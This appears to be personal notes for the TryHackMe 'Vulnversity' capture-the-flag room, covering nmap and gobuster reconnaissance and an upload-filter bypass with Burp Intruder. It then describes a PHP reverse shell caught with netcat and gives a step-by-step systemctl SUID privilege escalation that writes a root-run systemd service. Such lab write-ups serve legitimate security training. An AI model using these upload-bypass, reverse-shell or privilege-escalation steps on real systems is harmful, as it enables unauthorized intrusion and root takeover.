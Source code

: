# Vulnversity \(L\) \(wlk\)

_TryHackMe_ **-** [**Vulnversity**](https://tryhackme.com/room/vulnversity) ****Write-Up

_topics_: active reconnaissance, web app attacks, privesc

## 1\) Enumeration \(nmap\)

* `nmap -sC -sV -oN nmap/initial` 

    sC: Scan with the default nmap scripts

    sV: Attempts to determine the version of the services running

    oN: Output scan in normal

* scan found with 6 open ports \(21,22, 139, 445, 3128, 3333\)
* server runs on 3333
* squid proxy version 3.5.12
* nmap flag -n will not resolve DNS &lt;-------------- !!REVISIT!!
* most likely OS: Ubuntu \(Samba 4.3.11\)

## 2\) Hidden Web Directories \(gobuster\)

* `gobuster dir -u http://:port -w` 
  * dir: uses directory/file bruteforce mode
  * locate dirbuster: listed file locations with default dirbuster wordlists
* website: [http://10.10.83.87:3333](http://10.10.83.87:3333) **: must specify port!**
* gobuster found 6 hidden directories \(images, css, js, fonts,internal, server-status\)
* [http://10.10.83.87:3333/internal/](http://10.10.83.87:3333/internal/) is the directory with an upload form page \(can upload malicious files\)
* hidden directories on GNU system: `ls -R` or `find . -type f -name *`

## 3\) Local Privilege Escalation - 

#### Compromise the webserver \(burpsuite, intruder, netcat\) 4.1a\) **python script to test passwords**

* [https://github.com/810hd/pythonBruteForcePasswords/blob/master/pythonBruteForcePasswords.py](https://github.com/810hd/pythonBruteForcePasswords/blob/master/pythonBruteForcePasswords.py)

  4.1\) Burpsuite overview: Graphical tool for web app security

* once the browser gets a CA certificate from Burp, it has the capability to intercept all traffic over HTTPS, 
* Burp lists on 127.0.0.1 so the browser traffic must be manually configured to be redirected on localhost

  4.2\) Intruder \(burpsuite tool\)

* Intruder takes wordlist payloads to guess which files are allowed
* upload random .php file and delete content-disposition until the file name between special character
* the permitted file extension will have a different length than the others as it omits the error message attached. \(phtml\)

  4.3\) netcat \(_nc -lvnp_ \)

* uses PHP reverse shell \(established from the target host and forces connection\) as payload 
* Listens for incoming connections on port 4444 \(edited this and eth0 IP on reverse shell.phtml and listens on `nc -lvnp 4444`\)
* once this shell is uploaded to the website, navigate to /uploads/ to execute the shell and netcat returns the shell
* which user was running server? run command to list all users \(bill\)
* user flag was blantly in /home/bill

## 4\) Root Privilege Escalation

 `find / -perm /4000 -type f -exec ls -lda {} \; 2>/dev/null` list all SUID files

* at this point the machine is compromised and we have a low-privilege shell \(user inerface for OS\)
* SUID \(set owner userID on execution\) is a unique file permission given to a file. **SUID gives temporary permissions to a user to run the file as if they were the file owner**
* /bin/systemctl, the binary file for systemctl \(which controls all system daemons, the services on the OS\) is set to SUID. Which will allow us the control of the program that oversees all other programs. 
* **target system allows any logged in user to create a system service and run it as root**

  Below is list of commands in order to get the root flag. We must create a service and use it to read the root flag. 

  * `eop=$(mktemp).service`: creates an environment variable \(allow you to customize how the system works and the behavior of the applications on the system with name and value\) called eop, within the variable we call _mktemp_ command to create a temporary file as a systemd service unit file
  * `echo '[Service]`: start config file....calls echo command to echo input. Not including the ending quote enables to enter multiple single line inputs to complete systemd unit file
  * `ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"`: when the service calls the default system shell, the -c option executes everything inside the quote. It reads the root.txt flag and outputs the content of that file to the /tmp directory. 
  * `[Install]:` second part of unit file
  * `WantedBy=multi-user.target' > $eop`: end config file....sets the state \(runlevel\) where the service will run. Now the ending quote is included and all input is directed to the eop environment variable
  * `/bin/systemctl link $eop`: makes the unit file available for systemctl commands, despite it's outside of the standard search path
  * `/bin/systemctl enable --now $eop`: enable one or more unit instances, creates set of symlinks \(encoded in the \[Install\] sections of unit files\). Once they're created, the system manager config is reloaded. This does not start the unit files unless --now is enabled. 
  * `cd /tmp, ls -la | grep output; cat output`: self explanatory

